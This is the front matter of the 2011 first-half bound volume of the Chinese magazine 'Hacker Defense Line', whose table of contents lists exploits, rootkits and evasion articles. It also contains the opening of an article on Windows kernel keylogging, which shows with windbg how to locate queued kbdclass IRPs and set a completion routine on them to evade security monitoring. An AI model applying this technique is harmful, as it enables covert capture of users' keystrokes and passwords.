# 黑客防线2011合订本（上）第一部分

---

## 黑客防线录刊

## 黑客防线

## 2011 合订本（上半年）

《黑客防线》编辑部 编

- 剖析黑客攻防技术焦点
- 展示技术的创新与突破
- 透视黑客攻防发展趋势
- 全面收录流行黑客技术

### 黑客防线系列

## 黑客防线

## 2011 合订本（上半年）

《黑客防线》编辑部 编

电子工业出版社  
Publishing House of Electronics Industry  
北京·BEIJING

### 内容简介

本书为《黑客防线》杂志 2011 年第 1 期至第 6 期杂志所刊登文章的合集，内容涉及当前操作系统与应用软件最新漏洞的攻击原理与防护、脚本攻防、渗透与提权、溢出研究，以及网络安全软件的编写、网管工具的使用等。本书涉猎范围广，涵盖目前网络安全领域的各个方面，其中不乏代表着国内网络安全的顶级技术研究、0Day 漏洞的发布，以及最新的安全技术研究趋势，具有极高的收藏与阅读价值。

本书适用于网络安全业者、网络管理员、软件测试人员，以及在校大学生等诸多网络安全爱好者阅读。

未经许可，不得以任何方式复制或抄袭本书之部分或全部内容。  
版权所有，侵权必究。

### 图书在版编目（CIP）数据

黑客防线：2011 合订本．上半年／《黑客防线》编辑部编．—北京：电子工业出版社，2011.8  
（安全技术大系）  
ISBN 978-7-121-14327-4

I．①黑…  II．①黑…  III．①计算机网络—安全技术  IV．①TP393.08

中国版本图书馆 CIP 数据核字（2011）第 163606 号

| 项目 | 内容 |
|---|---|
| 策划编辑 | 毕宁（bn@phei.com.cn） |
| 责任编辑 | 徐津平 |
| 印刷 |  |
| 装订 | 北京中新伟业印刷有限公司 |
| 出版发行 | 电子工业出版社 |
| 地址 | 北京市海淀区万寿路 173 信箱 |
| 邮编 | 100036 |
| 开本 | 880×1230 1/16 |
| 印张 | 27.25 |
| 字数 | 1177 千字 |
| 印次 | 2011 年 8 月第 1 次印刷 |
| 印数 | 4000 册 |
| 定价 | 59.00 元 |

凡所购买电子工业出版社图书有缺损问题，请向购买书店调换。若书店售缺，请与本社发行部联系，联系及邮购电话：（010）88254888。  
质量投诉请发邮件至 zlts@phei.com.cn，盗版侵权举报请发邮件至 dbqq@phei.com.cn。  
服务热线：（010）88258888。

### 前言

#### 关于《黑客防线》

《黑客防线》是一本涉及网络信息安全的纯技术月刊，创刊于 2001 年，至今已经历时 10 年。10 年来，《黑客防线》坚持“在攻与防的对立统一中寻求技术突破”的理念，积极倡导技术创新和突破，成为国内网络信息安全技术人员和相关专业在校学生不可缺少的技术月刊。

随着时代的发展，为了使读者更加及时、便捷地阅读这本技术月刊，从 2010 年 7 月开始，月刊采用了电子版网络传播形式，不再出版纸张版的月刊。但是考虑到广大读者在得到快捷的电子版月刊的同时，还是希望将纸质版月刊作为技术资料收藏，为了满足这一要求，我们每半年将会出版这样一本合订本。合订本将全面收录半年内的文章，偶尔也会删除极少部分技术含量不足的文章，总体还是体现技术创新和突破。

#### 关于《黑客防线》半年合订本的出版周期

我们一般会在每年的 8 月出版上半年的合订本，每年的 2 月出版前一年下半年的合订本。由于编、印、发涉及诸多环节，希望读者能够容忍这个延时。如果希望及时阅读其中的文章，还是建议到《黑客防线》官网订阅电子版月刊。

#### 关于文章中涉及代码的下载

由于强调纯粹技术性的研究，很多文章涉及的技术阐述需要用代码实现，本来应该收录在光盘中随书配赠。但是，目前光盘审读一般依赖杀毒软件扫描结果，对于本技术领域很多代码都会误报，而一一澄清又需要拖延出版周期。所以，我们只能在《黑客防线》官网提供相关代码的下载。由此带来的不便希望得到读者的理解和谅解。

#### 关于购买合订本的途径

电子工业出版社所有的销售终端都是极好的购买途径，包括但不限于各大新华书店、科技书店、计算机书店以及网络书城。同时《黑客防线》编辑部的淘宝店也会有便捷服务。

#### 关于《黑客防线》的内容定位

《黑客防线》一直倡导技术创新和突破。这个倡导具体到网络信息安全相关，旨在强调底层编码技术研究、底层协议、系统内核、程序缺陷等方面技术对抗，反对应用级别的攻击类堆砌性质的描述文章，真正实现底层技术层面的攻与防的对立统一，这是我们 10 年来一直倡导的，也是今后要坚持方向。所以，欢迎后来者居上的新人也勇于尝试技术研究和创新，相信在这个技术领域只有创新、没有权威；积极投稿。投稿邮箱：du_xing_zhe@yahoo.com.cn。

作者将会获得《黑客防线》技术团队头衔并且有机会获得课题和科研项目经费资助。

#### 关于感谢的话

10 年间，《黑客防线》的技术探索之路其实也是一条不平坦的道路。由于众所周知的原因，我们一直寻求在法律允许的范围内研究这个边缘性、交叉性学科所涉及的纯粹技术，其目的就是为本土网络信息安全建立一个技术家园、培养出稀缺门类的技术专才。在此过程中，始终得到了各大安全公司和相关行业的认可，特别是有的公司在录用员工时客观参考在《黑客防线》上发表的文章；还有的公司在员工技术考核中把在本刊发表的文章也列入指标；有些高校相关专业给予我们作者以奖学金或者学分奖励，这种认可，是我们首先要感谢的。还要感谢 10 年来坚持技术研究并且投稿支持我们分享技术成果的作者们，其实这个技术团队已经成为相关行业的技术中坚力量。同时，更要感谢坚持阅读分享并且参与技术研究的广大读者，以及很多机构的图书馆、资料室，读者的需要使我们感到了工作的价值。最后要感谢的是电子工业出版社将本书作为一个序列持续出版下去的计划，此中尽职尽责的毕宁编辑卓有成效的工作也受到我们的尊敬和感谢。

《黑客防线》编辑部 binsun20000@gmail.com

# 《黑客防线》2011 合订本（上半年）

## 目录

### 焦点关注

- 从 IRP 中挖掘键盘记录 ...... 1
- 用 Windows 内核编程来实现注册表还原保护 ...... 5
- 自动检测卡巴虚拟机虚拟系统文件列表 ...... 10
- ATAPI 层禁止特定扇区的读写 ...... 11
- 分析 360 在 Win64 上的进程自保护并突破 ...... 14

### 漏洞攻防

- 危机四伏的优酷 WebMail 0day 漏洞 ...... 17
- 危险的 Kangle Web Server 服务器任意文件下载漏洞 ...... 19
- “快乐报表”不快乐的 0day 漏洞 ...... 20
- 百度 i 吧 0day 跨站漏洞 ...... 22
- 一听音乐盒本地 m3u 文件溢出 0day ...... 24
- 极光网络电视远程溢出 0day ...... 26
- 揭秘阿里旺旺 ActiveX 控件远程溢出 0day ...... 28
- 首发超星阅览器特殊 URI 远程溢出漏洞 ...... 29
- 揭秘广东省数字证书客户端远程网马 0day ...... 32
- 友评互动浏览器远程攻击漏洞 ...... 34
- AA Mail Server 电子邮件跨站漏洞 ...... 36
- 对金笛邮件系统和遥志邮件系统的跨站脚本漏洞测试 ...... 37
- 首发北京飞天诚信科技有限公司终端用户控件远程溢出 0day ...... 40
- 挖掘易用 Web 文件服务器目录访问漏洞 ...... 42

### 脚本攻防

- 基于 BeEF 的人人网 XSS 运用 ...... 44
- 有关 session 与 cookies 的安全性分析 ...... 48
- SiteServer V3.4.2 的一些漏洞 ...... 50
- 使用 Google V8 打造自己的脚本引擎——在脚本中动态执行 API ...... 52
- Phpcms2008 sp4 管理员提权 0day ...... 55
- Blogbus XSS Worm ...... 57
- DoNetTextBox 编辑器的一些拿 Shell 方法 ...... 59

### 程序加壳

- 非源码后期处理免杀启发式 ...... 62
- 为 Linux 2.6.3x 添加文件加密系统调用 ...... 63
- 浅谈病毒特征码定位 ...... 66
- 打乱阵脚的花指令 ...... 68
- 免杀之制作“随机编译器”的思路 ...... 69

### 渗透与提权

- 对某 Linux 网站的一次渗透 ...... 72
- 一次注入 Oracle 数据库的经历 ...... 75
- Public 权限渗透某 asp.net 网站 ...... 79
- 某国外大学服务器 ...... 83

### 溢出的研究

- 实战 SafeSEH ...... 86
- Shellcode 分段执行技术原理 ...... 88
- 栈溢出攻击原理及编写 Shellcode ...... 92
- 探究 SCMPX 1.5.1 本地堆溢出漏洞 ...... 95
- MP3-Nator 漏洞挖掘 ...... 97
- MP3-Nator 漏洞挖掘（续 bypass DEP）...... 99
- CoolPlayer 2.18 缓冲区溢出漏洞利用分析 ...... 102
- MS10-081 漏洞从补丁比对到生成 POC ...... 108
- ROP——一种非传统栈上攻击方法分析与防御方法介绍 ...... 113
- 皮皮播放器溢出漏洞挖掘 ...... 115
- Win2003 活动目录堆溢出漏洞分析手记 ...... 117
- 一步步分析最新 Flash Player 0day 漏洞溢出 ...... 121

### 网络安全顾问

- Kerberos 协议登录服务的漏洞攻击与防御 ...... 123
- 攻击下一代 Web 开发标准 HTML5 ...... 126
- 打造 RTX 登录安全审计系统 ...... 129
- Windows 服务器安全加固之组策略篇 ...... 132
- Google Android 平台下编写内核级 Rootkit ...... 133
- 防御浏览器遭受跨源 CSS 攻击策略 ...... 138
- Offensive Security Exploit Weekend 赛题详解 ...... 143
- Windows 服务器安全加固之账户设置和服务管理篇 ...... 148
- 谋杀时间——NTP 攻击技术浅析 ...... 149
- UPnP Hacking 攻防技术初探 ...... 155
- 针对智能手机和路由器的 Tapjacking 与物理定位攻击 ...... 159
- SAP Web 应用程序攻击技术 ...... 163
- GPRS/EDGE/UMTS/HSPA 移动数据通信攻击技术 ...... 167
- 无须注入 Shellcode 实现对 ROP 程序的攻击 ...... 170
- Adobe Reader 'CoolType.dll' TTF 字体溢出漏洞分析 ...... 175
- Exim 'string_vformat()' 溢出漏洞分析 ...... 177
- Win32k.sys 键盘布局文件提权漏洞分析 ...... 180
- 某校园网站的安全性分析 ...... 183
- 谈谈区域传送的威胁和防御 ...... 185
- SQL Server 数据库系统日志安全体系 ...... 187
- 隐藏实现交换网络的 QQ 号 ...... 191
- 连接字符串参数污染攻击技术 ...... 194
- 应用程序级拒绝服务攻击与防御 ...... 197
- ZeroAccess：内核模式下的一个高级 rootkit 分析 ...... 199
- 银行支付网关协议安全性分析 ...... 202
- 简单构建 Linux 操作审计系统 ...... 205
- 攻击 WDM 驱动 ...... 208
- NTP 反射型 DDoS 攻击 ...... 214
- Android 应用的破解初探 ...... 217
- 谁在遥控我的电视（上）——中兴机顶盒引发的 IPTV 安全问题 ...... 219
- 编程打造 IME 输入法启动程序 ...... 229
- 读取本地已登录的 QQ 号及应用 ...... 230
- 在 Win64 上实现 Ring3 Inline Hook ...... 231
- 在 Win64 上实现文件保护 ...... 236
- 编程实现简易 WinObj ...... 238
- 编写自身带病毒警告的程序 ...... 240
- Windows Mobile 手机病毒研究系列之“牛刀小试” ...... 241
- 用户态突破 QQ 密码保护机制 ...... 244
- 编程打造隐私监视器 ...... 250
- Windows 7 中在 Ring3 下结束瑞星 2011 ...... 253
- 使用 gzip 编码方式提升网页下载速度 ...... 255
- 病毒技术之一：获取病毒函数的起始地址 ...... 256
- 病毒技术之二：在 exe 文件中添加代码 ...... 258
- Win64 上 Ring3 Inline Hook 的绕过及反制 ...... 261
- SSDT Hook 之 MmMapIoSpace 方法 ...... 263
- 在 64 位 VC 程序里内嵌汇编 ...... 266
- 修改 Security 方法保护进程 ...... 268
- 系统范围内的进程创建监控实现 ...... 270
- VB 识别动网中文字验证码 ...... 273
- 初探 Win64 系统服务 ...... 276
- 另类方法截取网页账号密码 ...... 279
- DNF 双开辅助 ...... 281
- VB 编写路由器 Web 管理的密码破解工具 ...... 285
- 对掌上百度 gbzq 文件的研究及应用——应用掌百特权实现无验证码登录账号 ...... 287
- 在 Win64 上反蓝屏 ...... 290
- 谈 TCP/IP 粘包与不完整包的解决思路 ...... 293
- 一个 VB 程序的从爆破到算法 ...... 294
- 挂钩 ValidateHwnd 实现窗口保护 ...... 299
- CUDA 编程初探 ...... 301
- 一个微型的虚拟机代码保护引擎的设计与实现 ...... 305
- 手机安全防护系列之“解析恶意关机” ...... 307
- QQ2009 尾巴的攻与防 ...... 309
- 病毒技术之四：自我复制 ...... 312
- 再谈窗口站与桌面 ...... 313
- HIPS 研究之学习 360 的 SSDT Hook ...... 315
- 针对入侵站点后过程分析引起的编程习惯思考 ...... 316
- 心海系统 cookie 伪造 ...... 319
- 使用 Winsock 搜索蓝牙设备 ...... 321
- 手机中的内核对象初探 ...... 323
- 关于《编程实现简易 WinObj》的一点思考 ...... 326
- 汇编语言看数据结构之数组 ...... 327
- Dispatch Hook 实现文件防删 ...... 331
- 读取 NTFS 文件系统中的文件数据 ...... 333
- 汇编语言看数据结构之队列 ...... 335
- 手机安全防护系列之“解析恶意闪屏” ...... 339
- 在 Win64 上实现 Ring3 级 HIPS ...... 340
- Windows 程序的手术刀——DynC ...... 343
- 编写 Linux PAM 模块实现“智能卡”登录 ...... 344
- 魔兽争霸 DotA 外挂浅析 ...... 349
- 另类 Ring3 Hook 实现进程监控 ...... 357
- 浅析 QQ 密码保护原理 ...... 359
- Ring0 级多角度分析文件隐藏与检测技术 ...... 361
- 系统内核漏洞利用迁移技术 ...... 366
- 逆向插件解析 QQ 显 IP 的功能 ...... 370
- 逆向实现 QQ 聊天监控 ...... 372
- 限制单个进程的 CPU 占用率 ...... 374
- 再谈 64 位程序内嵌汇编 ...... 376
- 驱动校验调用者防止被恶意利用 ...... 378
- 通过磁盘类驱动的 ObjectHook 来保护 MBR ...... 382
- 详解句柄与对象 ...... 383
- 自己动手，打造 TcpView ...... 386
- Win64 上底层方式的模拟按键 ...... 389
- Win64 上用 WMI 实现进程启动监控 ...... 391
- 使用 GoogleURL 方便安全地解析 URL ...... 393
- Atapi 的深度 Hook ...... 395
- 汇编加密重定位代码免杀 DLL 文件 ...... 396
- 动态获取 API 入口地址 ...... 398
- 某 CrackMe 的分析及注册机写法 ...... 400
- Android 操作系统安全研究系列——键盘记录 ...... 403
- 强删文件攻防 ...... 405
- VB 多进程实现极速 Web 暴力破解 ...... 409

### 漏洞分析

- Themida 带壳破解技术浅析 ...... 412
- 探析内存断点的原理与检测方法 ...... 416
- INT3+pushfd/popfd 反调试的前世今生 ...... 417
- 获取线程上下文的技术 ...... 418
- 揭秘 Safari 密码存储的秘密 ...... 420

前置知识：驱动  
关键词：键盘记录、IRP、驱动

## 从 IRP 中挖掘键盘记录

文/图 宁妖

### 键盘记录相关技术

键盘记录技术可谓绵绵繁杂，毕竟键盘记录是任何一个远控程序所必需的组件。简单地实现有 Ring3 层的全局钩子，虽然很简单，但是笔者清楚地记得，在 2010 年的这个时候所得的测试结果是，大部分的安全产品默认配置下都不能阻止键盘全局钩子。到了 Ring0 层，实现键盘记录的方法非常多，比如安装一个键盘过滤驱动，Hook kbdclass 类驱动的分发函数，Hook IoCompleteRequest，再比如黑防杂志之前相关文章《编写调用门键盘记录程序》和《直接访问键盘控制芯片获取键盘记录》等。但是这些技术或多或少都有缺陷，比如安装键盘过滤驱动，很容易被摘掉；Hook 类驱动的分发函数以及一些其他的函数，由于这些 Hook 点是固定的，很容易被检测到。

相对而言，动态的 Hook 点则往往很难被安全软件所关注，甚至这些动态的 Hook 点并不是常驻在内存中的，而是有生命周期的，周期结束后也就不存在 Hook 了，这时安全软件根本无法检测。而本文就是介绍这样一种技术，希望对安全软件的关注点扩展有所帮助。

新的视角——基于 IRP 数据挖掘的动态 Hook。  
本文提出一种全新的 Hook 技术，即上文中所说的具有生命周期的动态 Hook 技术。思想如下：通过对键盘记录机制的研究，发现键盘记录都是被 IRP 所携带的，最重要的是这些 IRP 是可定位的。通过“帮忙”设置一个 IRP 完成例程，即可在安装的完成例程中获取键盘记录。由于 IRP 是动态生成的，其完成例程地址也是不固定的，且 IRP 是有生命周期的；当 IRP 生成后，通过设置一个完成例程抓取键盘记录可以很好地绕过监控。难点是如何定位到这些 IRP 以及如何提高稳定性。

下面详细阐述实现原理、过程。

电脑上，有如图 1 所示的信息。

图 1

其中，0x88bbad00 就是一个键盘中断对象的地址。按下键盘后，系统将会调用中断对象中的 ServiceRoutine，这里就是 i8042prt!I8042KeyboardInterruptService+0。大家都知道，硬件中断的 irql 级别是很高的，系统为了更好地响应工作，往往会将工作放在一个 DPC 中，根据这条经验，我们在 i8042prt!I8042KeyboardInterruptService 中对 KeInsertQueueDpc 下一个断点，执行后，得到如图 2 所示的信息。

### 键盘都做了啥

当你按下一个键时，发生了什么？系统表现出了什么样的动作行为？下面详细地解析一下。

按下一个按键的时候，系统表现了两个方面的动作：自上而下的和自下而上的。

首先来研究一下自下而上的。当敲击键盘时，会产生一个硬件中断；可以用 windbg 找到键盘中断信息。比如，在笔者的电脑上，

图 2

可以看到，这个 DPC 将会执行 i8042prt!I8042KeyboardIsrDpc 这个函数。继续跟踪研究，可以发现在这个函数中，将会调用 kbdclass!KeyboardClassServiceCallback，而这个函数相信很多人都很熟悉，如图3所示。



图3

网上有很多这个函数的信息，kbdclass 是一个类驱动，i8042prt 是一个小端口驱动，挂钩类驱动的优势就是通用。我们继续跟踪，通过逆向 `kbdclass!KeyboardClassServiceCallback`，可以发现其会调用 `KeyboardClassDequeueRead` 函数，而这个函数会在下一节“定位 IRP”中详细讲解。这个函数的功能就是从一个双向链表中得到一个排队的 IRP 并使其出队。然后，`KeyboardClassServiceCallback` 将自下向上传递的键盘记录复制到这个 IRP 中，调用 `IofCompleteRequest` 完成这个 IRP。这样，IRP 将会携带键盘记录向上传递；然后由系统将记录传给 Ring3 层的某个进程。

下面来研究一下自上而下的过程。着手点是在 kbdclass 的分发函数 `kbdclass!KeyboardClassRead` 处设置一个断点，用来观察 read 指令是由谁发出的。图4所示是一个示例。



图4

可以看到这个 IRP 来自上层驱动（`\Driver\Aidevice`），再往上，可以发现有一个 `win32k!RawInputThread` 线程，而这个读请求就来自于这个线程。Win32k 是 Windows 子系统的一部分（Windows 子系统包括 `csrss.exe`、`win32k.sys`、子系统 dll 等），是子系统的内核模式部分，其对应的 Ring3 层部分为 `csrss.exe`。于是我们到 `csrss.exe` 进程空间中或许会有所发现。这里使用 `procexp.exe` 这个工具查看 csrss 进程，得到如图5所示的信息。

从图5中，可以看到 704 号线程的栈中显示的函数调用关系和之前内核中的栈回溯显示的函数关系是一致的，即：`csrss.exe` 中有一个线程（这里是 `StartCreateSystemThreads`）会不断地产生一个读请求，其子系统的内核模式部分 win32k 将调用 `ZwReadFile`，之后 IO 管理器将会根据 `ZwReadFile` 生成一个 IRP，并传递给 `\Driver\AIDevice` 驱动，而后将继续传递给 `\Driver\KbdClass` 类驱动。到这里，即回到了我们最先设置断点的地方了。那么，KbdClass 类驱动是如何处理这个 IRP 的呢？通过逆向 `kbdclass!KeyboardClassRead` 可以知道，`kbdclass!KeyboardClassRead` 会调用一个叫做 `kbdclass!KeyboardClassHandleRead` 的函数，再逆向这个函数（将会在“定位 IRP”一节中详解），就可以发现一件神奇的事情：这个函数原来是将这个 IRP 排队到一个链表中！还记得之前的 `KeyboardClassDequeueRead` 函数吗？这个函数就是从这个链表中释放一个 IRP。



图5

显而易见，IRP 被缓存在了这个双向链表中，下面定位这个 IRP 就水到渠成了。

### 定位 IRP

在上一节中，我们已经得到了如下信息：`KeyboardClassHandleRead` 将 IRP（这个 IRP 将会携带键盘记录）排入一个双向链表中；`KeyboardClassDequeueRead` 将从这个链表中释放这个 IRP。那么，我们找到了这个双向链表，也就是定位到了 IRP。下面我们来详细研究一下这两个函数。首先是 `KeyboardClassHandleRead`，下面给出逆向出来的关键部分，如图6所示。



图6

通过逆向，可以知道这个函数将 IRP 插入到 `DevExt` 的 `listEntry` 链表中。其中，`DevExt` 就是 `\Driver\Kbdclass` 一个设备的扩展，是这个函数的第一个参数。至于为什么第一个参数就是 `DevExt`，可以回溯一下，这个函数是由 `KeyboardClassRead` 调用的，这个函数在调用 `KeyboardClassHandleRead` 时传入的第一个参数就是 `DevExt`，很简单，就不探究了。下面用 windbg 来定位这个 `DevExt`。

```c
lkd> !drvobj kbdclass
Driver object (879f6598) is for:
\Driver\kbdclass
DriverExtension List: (id, addr)
```

```c
Device Object list:
87a7c3a8  879f9e28
...
AttachedDevice (Upper) ...
AttachedTo (Lower) ...
Device queue is not busy.
```

`DevExt` 的值为 `0x879f9ee0`。接着，`KeyboardClassHandleRead` 将 `IRP.Tail.Overlay.ListEntry` 挂到 `DevExt.ListEntry` 中去（即 `DevExt+0x70` 处）。这样，这个 IRP 已经被排队到链表中了，这个链表的表头就是 `DevExt.ListEntry`。

我们继续研究一下 `KeyboardClassDequeueRead` 函数来验证我们的结论，如图7所示。



图7

这个函数的参数也是 `DevExt`，功能很简单，就是从 `DevExt.ListEntry(+0x70)` 处链表中取出第一个 IRP。这个 IRP 也就是先前调用 `KeyboardClassHandleRead` 排队的那个 IRP。至此，IRP 的定位工作已经完成了，下面将研究一下如何通过这个排队的 IRP 获取键盘记录。

### 设置完成例程

官方给出的方法是调用 `IoSetCompletionRoutine` 这个函数，成功设置后，当 IRP 被完成时，`IoCompleteRequest` 将会调用完成例程，那么我们就有机会读取 IRP 的内容了。但是，我们这里设置完成例程是不能调用 `IoSetCompletionRoutine` 这个函数的，为什么呢？这涉及 IO 栈空间（IO Stack Location）的布局。简单地说，就是当前栈中的完成例程（如果有的话）是前一个驱动设置的。

```c
#define IoSetCompletionRoutine(Irp, \
    CompletionRoutine, \
    Context, \
    InvokeOnSuccess, \
    InvokeOnError, ...)
```

```c
PIO_STACK_LOCATION IrpSp;
ASSERT((InvokeOnSuccess || InvokeOnError || InvokeOnCancel) ?
       (CompletionRoutine) != NULL : TRUE);
IrpSp = IoGetNextIrpStackLocation(Irp);
IrpSp->CompletionRoutine = (PIO_COMPLETION_ROUTINE)CompletionRoutine;
IrpSp->Context = Context;
IrpSp->Control = 0;
if (InvokeOnSuccess) IrpSp->Control = SL_INVOKE_ON_SUCCESS;
if (InvokeOnError)   IrpSp->Control |= SL_INVOKE_ON_ERROR;
if (InvokeOnCancel)  IrpSp->Control |= SL_INVOKE_ON_CANCEL;
```

